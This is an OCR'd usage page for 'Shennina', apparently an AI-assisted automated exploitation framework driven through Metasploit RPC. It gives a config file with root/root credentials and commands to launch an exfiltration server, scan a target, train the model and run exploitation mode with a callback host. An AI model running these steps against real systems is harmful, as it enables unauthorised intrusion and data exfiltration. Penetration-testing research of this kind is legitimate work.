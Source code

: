 # Shennina

/config/msfrpg-config.json

{
  "password": "root",
  "user": "root",
  "host": "172.17.0.1",
  "port": 55553,
  "ssl": false
}

## Step 1 Shell 1
# -------runs exfiltration server (separeted console)
$ cd ./exfiltration-server/
$ sudo ./run-server.sh

## Step 2 Shell 2
# ------runs msfconsole (separeted console)
./scripts/run-msfrpc.py

## Step 3 Shell 3
# ------runs shennina
./shennina.py --initialize-exploits-tree


#------ scanning phase------#
sudo ./shennina.py --lhost metasploit-ip --target target.local --service-scan-only

# ------------- training shennina ------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --training-mode

# --------------- attacking with recommended exploit given by shennina AI -------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --exploitation-mode



